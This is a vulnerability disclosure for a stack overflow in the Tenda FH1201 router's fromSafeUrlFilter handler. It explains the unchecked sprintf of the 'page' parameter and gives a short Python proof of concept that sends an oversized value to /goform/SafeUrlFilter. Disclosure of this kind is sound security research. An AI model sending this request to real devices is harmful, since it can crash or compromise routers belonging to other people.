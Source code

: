 # Tenda FH1201 fromSafeUrlFilter_page
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the fromSafeUrlFilter function.
### Vulnerability details
In function fromSafeUrlFilter line 44, it reads in a user-provided parameter `page`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/3.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeUrlFilter"

data = {
    "menufacturer": "a",
    "page": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/4.png)
